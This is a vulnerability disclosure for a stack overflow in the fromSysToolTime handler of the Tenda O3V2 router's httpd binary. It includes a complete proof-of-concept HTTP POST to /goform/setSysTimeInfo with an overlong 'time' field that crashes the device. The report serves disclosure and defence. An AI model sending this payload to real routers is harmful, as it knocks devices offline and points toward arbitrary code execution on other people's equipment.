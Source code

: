 # Tenda Vulnerability

Vendor:Tenda

Product:O3V2

Version:1.0.0.12(3880)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in Tenda router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In the router's `fromSysToolTime` function, `time` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `time` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `time` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `time` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/setSysTimeInfo HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 249
Origin: http://192.168.2.1
Connection: close
Referer: http://192.168.2.1/index.html
Cookie: O3V2.0_user=admin

TimeIndex=&timeType=1&time=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&timePeriod=&timeZone=
```



## Result

The target router crashes and cannot provide services correctly and persistently.
